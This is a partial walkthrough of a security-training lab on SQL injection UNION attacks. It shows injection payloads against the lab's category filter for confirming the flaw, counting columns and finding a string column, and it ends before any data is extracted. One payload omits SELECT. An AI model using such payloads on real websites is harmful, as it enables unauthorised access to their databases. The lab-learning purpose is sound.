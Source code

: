 ## Lab: SQL injection UNION attack, retrieving data from other tables
# Description
![alt]({{ site.url }}{{ site.baseurl }}/assets/images/images-learn/Learn-2021-05-10-Learn-SQL-injection/BkRJ_BUi3.png)

# Solution

Continuing like the previous labs, we need to go deeper to exploit the SQL injection vulnerability.

Home page:
![alt]({{ site.url }}{{ site.baseurl }}/assets/images/images-learn/Learn-2021-05-10-Learn-SQL-injection/H1MGOH8on.png)

I noticed, there is still a function to list the entire category through the weak category.
This time I decided to go step by step to have a clearer view of how to mine.

## Identify sql injection weaknesses
Going to category `Pets` I see that there are 4 records listed on the screen.

`https://0a9e004d031be62a80275dd500ab00ea.web-security-academy.net/filter?category=Pets`

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/images-learn/Learn-2021-05-10-Learn-SQL-injection/r14lKBIin.png)

Test payload: 
`https://0a9e004d031be62a80275dd500ab00ea.web-security-academy.net/filter?category=Pets' or 1=1--`

there are 20 records listed. This proved to be a SQL injection vulnerability.

## Determine the number of columns returned by the query


`/filter?category=Pets' union null--`

Result:
![alt]({{ site.url }}{{ site.baseurl }}/assets/images/images-learn/Learn-2021-05-10-Learn-SQL-injection/r1Y2trLsh.png)

`/filter?category=Pets' union select null, null--`

Result:
![alt]({{ site.url }}{{ site.baseurl }}/assets/images/images-learn/Learn-2021-05-10-Learn-SQL-injection/HJrzcB8jh.png)

=> there are records appearing, this shows that the current query returns 2 columns.


### Defines a column with string data

`/filter?category=Pets' union select 'pwned', null--`

I use the following payload to check if the column is of type string, if the string `pwned` is returned, then the column has string data.
![alt]({{ site.url }}{{ site.baseurl }}/assets/images/images-learn/Learn-2021-05-10-Learn-SQL-injection/r1n-iSUi3.png)
